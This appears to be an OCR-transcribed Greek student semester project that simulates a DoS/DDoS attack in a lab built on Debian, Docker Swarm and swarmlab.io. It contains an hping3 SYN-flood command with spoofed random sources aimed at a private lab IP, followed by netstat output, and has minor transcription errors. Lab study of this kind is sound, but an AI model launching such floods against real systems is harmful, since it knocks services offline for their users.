 ~~ Εργασία Εξαμήνου - Ασφαλεία Δικτύων και επικοινωνίων ~~

Μακρογαμβράκης Απόλλων Φοίβος
713242017105

~~ Υλοποίηση συστήματος για την προσομοίωση Dos/DDos Attack ~~

Ένας λιμένας είναι μια πλατφόρμα λογισμικού για τη διαχείριση των εμπορευματοκιβωτίων. 
Η βασική εστίαση του Docker είναι να βοηθήσει τους προγραμματιστές να αναπτύξουν εύκολα εφαρμογές και να τους μεταφέρουν σε ένα κοντέινερ για να τις αναπτύξουν οποιαδήποτε στιγμή.
Επίσης, υπάρχουν διαθέσιμα διάφορα στοιχεία στο Docker. Το Docker για Mac εκτελεί το δοχείο Docker στο Mac OS.
Ομοίως, υπάρχουν εκδόσεις Linux και Windows που επιτρέπουν την εκτέλεση του Docker στις αντίστοιχες πλατφόρμες τους.

~~ Αρχικά ~~

Για την εργασία χρησιμοποιήθηκε εικονική μηχανή (Virtual Machine) σε KVM Virtualization περιβάλλον, με λειτουργικό Debian 11.1 και docker-ce από την επίσημη πλατφόρμα του docker.

~~ Εγκατάσταση Debian 11.1 ~~

Για την εγκατάσταση ακολουθήθηκαν οι εντολές από το https://www.debian.org/ καθώς και κατέβηκε το λειτουργικό από το https://www.debian.org/download.

~~ Εγκατάσταση Docker ~~

Για την εγκατάσταση του Docker ακολουθήθηκαν οι οδηγίες από το https://docs.docker.com/engine/install/debian/

~~ Δημιουργία Docker Swarm ~~

Δημιουργήθηκε docker swarm με ένα node, θα μπορούσαν να είναι και περισσότερα χωρίς να αλλάξει η αρχιτεκτονική δομή.
Για την εγκατάσταση του swarm ακολουθήθηκαν οι εντολές από: https://docs.docker.com/engine/swarm/swarm-tutorial/create-swarm/

~~ Εγκατάσταση swarmlab.io on docker swarm ~~

Για να μπορέσει να γίνει η εγκατάσταση του swarmlab.io στο docker swarm ακολουθήθηκαν οι οδηγίες: http://docs.swarmlab.io/SwarmLab-HowTos/swarmlab/docs/swarmlab/docs/install/install-hybrid.html

~~ Εκτέλεση της εντολής hping3 ~~

```bash
sudo hping3 -c 14000 -d 120 -S -w 64 -p 3088 --flood --rand-source 192.168.71.95
```
>> HPING 192.168.71.95 (enp1s0 192.168.71.95): S set, 40 headers + 120 data bytes hping in flood mode, no replies will be shown

~~ Εκτέλεση εντολή netstat ~~

```bash
netstat -s
Ip:
    Forwarding: 1
    6714892 total packets received
    1 with invalid addresses
    6275771 forwarded
    o incoming packets discarded
    438890 incoming packets delivered
    13131741 requests sent out
    17955 outgoing packets dropped
    120 dropped because of missing route
Icmp:
    64 ICMP messages received
    64 input ICMP message failed
    ICMP input histogram:
    destination unreachable: 64
    4 ICMP messages sent
    O ICMP messages failed
    ICMP output histogram:
    destination unreachable: 4
IcmpMsg:
    InType 3: 64
    Out Type 3: 4
Top:
    789 active connection openings
    112 passive connection openings
    19 failed connection attempts
    17 connection resets received
    5 connections established
    438546 segments received
    261770 segments sent out
    172 segments retransmitted
    64 bad segments received
    537 resets sent
Udp:
    1785 packets received
    2 packets to unknown port received
    O packet receive errors
    1870 packets sent
    o receive buffer errors
    O send buffer errors
    IgnoredMulti: 316
UdpLite:
TcpExt:
    398 TCP sockets finished time wait in fast timer
    215 delayed acks sent
    1 delayed acks further delayed because of locked socket
    Quick ack mode was activated 34 times
    317668 packet headers predicted
    7373 acknowledgments not containing data payload received
    23406 predicted acknowledgments
```
